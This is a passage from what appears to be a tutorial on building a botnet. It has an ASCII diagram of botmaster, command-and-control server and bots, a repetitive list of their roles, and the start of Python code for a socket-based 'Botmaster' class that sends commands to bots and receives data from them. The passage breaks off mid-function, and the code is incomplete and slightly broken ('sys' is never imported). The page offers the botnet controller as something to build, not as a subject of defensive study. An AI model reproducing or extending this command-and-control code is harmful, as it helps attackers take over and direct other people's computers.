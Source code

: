 A basic botnet infrastructure looks like this:

```text
            +-----------------+
            |    Botmaster    |
            +-----------------+
                     |
            +-----------------+
            |   C&C Server    |
            +-----------------+
                     |
         ___________/ \__________
        /                        \
+-----------------+     +-----------------+
|      Bot 1      |     |      Bot 2      |
+-----------------+     +-----------------+
```

The differences between the components of a botnet are:

- The botmaster controls the botnet and can send commands to the bots.
- The bots are computers that are part of the botnet and can receive commands from the botmaster.
- The command and control servers are servers that the botmaster uses to control the bots.
- The botmaster can control the bots using a command and control server.
- The botmaster can send commands to the bots using a command and control server.


## Creating the Botmaster

The botmaster's minimal functions include the ability to send commands to the bots and receive information from them, however the botmaster can also update the malware on the bots.

To start this off, we'll create a file called `botmaster.py` and create a class called `Botmaster` with the following functions:

```python
import socket
import json
import base64

class Botmaster:
    def __init__(self, host, port):
        self.host = host
        self.port = port

    def connect(self):
        try:
            self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.sock.connect((self.host, self.port))
            print(f"[*] Connected to {self.host}:{self.port}")
        except Exception as e:
            print(f"[*] Connection to {self.host}:{self.port} failed: {e}")
            sys.exit(1)

    def send_command(self, command):
        try:
            self.sock.send(command.encode())
            print(f"[*] Command sent: {command}")
        except Exception as e:
            print(f"[*] Command failed: {e}")
            sys.exit(1)

    def receive_data(self):
        try:
            data = self.sock.recv(1024).decode()
            print(f"[*] Data received: {data}")
        except Exception as e:
```